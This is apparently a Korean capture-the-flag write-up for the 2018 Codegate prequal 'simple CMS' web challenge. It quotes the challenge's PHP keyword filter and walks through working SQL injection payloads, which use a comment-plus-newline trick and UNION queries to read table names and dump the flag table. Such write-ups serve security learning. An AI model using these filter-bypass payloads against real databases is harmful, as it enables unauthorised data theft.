

# [2018_Codegate_Prequal] \[Web] simple CMS

## Key words

* SQL injection

## Solution

~~대회 내내 풀었지만 결국 못 풀었던 문제...~~



flag는 DB에 존재합니다. 따라서 SQL injection을 통해 flag를 읽어와야 한다는 느낌이 들었습니다.

```php
<?php 
	if(!defined('simple_cms')) exit();

	$method = $_SERVER['REQUEST_METHOD'];

	if($method !== 'GET' && $method !== 'POST'){
			exit('are you hacker?');
	}

	$filter_str = array('or', 'and', 'information', 'schema', 'procedure', 'analyse', 'order', 'by', 'group', 'into');

	function escape_str($array)
	{
	    if(is_array($array)) {
	        foreach($array as $key => $value) {
	            if(is_array($value)) {
	                $array[$key] = escape_str($value);
	            } else {
	                $array[$key] = filter($value);
	            }
	        }
	    } 
	    else {
	        $array = filter($array);
	    }
	    return $array;
	}
	function filter($str){
		global $filter_str;

		foreach ($filter_str as $value) {
			if(stripos($str, $value) !== false){
				die('are you hacker?');
			}
		}
		return addslashes($str);
	}

	$_GET = escape_str($_GET);
	$_POST = escape_str($_POST);
	$_COOKIE = escape_str($_COOKIE);
	$_REQUEST = escape_str($_REQUEST);
?>
```

`function.php`를 보면 GET, POST, REQUEST 등을 통해 가져온 변수를 모두 필터링합니다. 이 때문에 인용부호를 통한 escaping은 불가능해집니다. ~~그래서 저는 SQL injection이 불가능하다고 판단했습니다. 그래서 SQL injection 말고 'php를 클래스로 구현해놓은 이유가 있을거야'라고 생각하며 SQL injection 말고 다른 곳에서 헛짓거리를 몇시간동안 했습니다. 하지만 결국은 SQL injection 문제더군요...~~

```php
		function action_search(){
			$column = Context::get('col');
			$search = Context::get('search');
			$type = strtolower(Context::get('type'));
			$operator = 'or';
			
			echo "column : ".$column."<br>";
			echo "search : ".$search."<br>";
			
			if($type === '1'){
				$operator = 'or';
			}
			else if($type === '2'){
				$operator = 'and';
			}
			if(preg_match('/[\<\>\'\"\\\'\\\"\%\=\(\)\/\^\*\-`;,.@0-9\s!\?\[\]\+_&$]/is', $column)){
				$column = 'title';
			}
			$query = get_search_query($column, $search, $operator);
			$result = DB::fetch_multi_row('board', '', '', '0, 10','date desc', $query);
			include(CMS_SKIN_PATH . 'board.php');
		}
```

몇시간 삽질을 하다가 발견한건데 버그가 나는 곳은 한 곳뿐이었습니다. 위는 Board 클래스의 함수인데 #을 필터링하지 않습니다. 따라서 col에 #을 삽입하여 `http://13.125.3.183/index.php?act=board&mid=search&col=title%23&type=1&search=ddd`에 접속하게 되면 SQL 에러가 발생합니다. 이걸로 뭘 할 수 있겠나 싶었지만 이게 핵심이었습니다.

\#은 한줄만 주석을 처리하는 문자입니다. 따라서 다음 줄에 나오는 내용은 주석 처리를 하지 않습니다. 

```
act=board&mid=search&col=title%23&type=1&search=ddd%0a)%20union%20select%201,2,3,4,5%20%23
```

따라서 파라미터를 위와 같이 구성한다면 다음의 SQL문이 완성됩니다.

```
SELECT * FROM 47467a49795a756b5558_board WHERE LOWER(title#) like '%ddd ) union select 1,2,3,4,5 #%' order by date desc limit 0, 10
```

이는 정상적인 SQL문으로 인식되어 1,2,4가 출력되는걸 확인할 수 있습니다. 이제 flag가 있는 테이블명을 가져와보겠습니다.

```
SELECT * FROM 47467a49795a756b5558_board WHERE LOWER(title#) like '%ddd ) union select 1,(select table_name from mysql.innodb_table_stats limit 2,1),3,4,5 #%'

http://13.125.3.183/index.php?act=board&mid=search&col=title%23&type=1&search=ddd%0a)%20union%20select%201,(select%20table_name%20from%20mysql.innodb_table_stats%20limit%202,1),3,4,5%20%23
```

`41786c497656426a6149_flag`가 테이블 명입니다. 원래대로라면 이제 컬럼명도 긁어와야하지만 join을 통해 컬럼명 없이 flag 가져올 수 있습니다.

```
SELECT * FROM 47467a49795a756b5558_board WHERE LOWER(title#) like '%test )<0 union (select 1,t.* from mysql.user join 41786c497656426a6149_flag t)#%'

http://13.125.3.183/index.php?act=board&mid=search&col=title%23&type=1&search=test%0A)%3C0%20union%20(select%201,t.*%20from%20mysql.user%20join%2041786c497656426a6149_flag%20t)%23
```

`flag{you_are_error_based_sqli_master_XDDDD_XD_SD_xD}`

